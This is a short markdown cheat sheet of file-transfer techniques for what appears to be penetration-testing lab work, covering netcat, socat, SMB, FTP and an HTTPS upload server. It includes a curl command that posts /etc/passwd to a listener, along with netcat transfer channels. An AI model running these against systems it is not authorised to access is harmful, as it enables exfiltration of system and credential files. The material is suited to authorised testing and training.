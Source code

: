 # Base64

**Sender:** `cat file | base64 -w 0;echo` <br>
**Reciever** `echo -n base64payload | base64 -d > filename`   Confirm md5 hash match in linux: `md5sum file`

# Netcat
**Sender:** `nc  10.10.10.10 4444 < file`<br>
**Reciever:** `nc -lvp 4444 > file`

# Web 

**Sender:** `python3 -m http.server 8080` <br>
**Reciever:** `wget http://10.10.10.10:8080/file` or `curl`

# SSH
**Sender:** `scp file username@hostname:/home/user/`<br>
**Reciever:** `scp username@hostname:/root/file .`<br>

# Socat

**Sender:** `socat TCP:192.168.0.107:4545 /home/kali/transfer.file`<br>
**Reciever:** `socat TCP-LISTEN:4545 /home/hunter/transfer.file`

# FTP
**Sender:** `python3 -m pyftpdlib -p21 -w` or `python3 -m pyftpdlib -u admin -P 8618` with user and password<br>
**Receiever** `ftp IP port` and put, get commands

# SMB
Without password from `/usr/share/doc/python3-impacket/examples`<br>
**Sender:** `python3 smbserver.py sharename /home/hunter`<br>
**Receiever:** `smbclient //IP/Sharename`<br>
With password:<br>
**Sender:** `python3 smbserver.py -username admin -password 8618 adminshare /home/hunter`<br>
**Reciever:** `smbclient -U admin //192.168.0.107/adminshare` <br>

# Xfreerdp
```bash
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

# Upload server

1) Create openssl certificate:
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
2) Start upload server:
```bash
sudo python3 -m uploadserver 443 --server-certificate /location/server.pem
```
**Reciever:** `curl -X POST https://192.168.0.107/upload -F 'files=@/etc/passwd' --insecure` or browse web server to `/upload` location
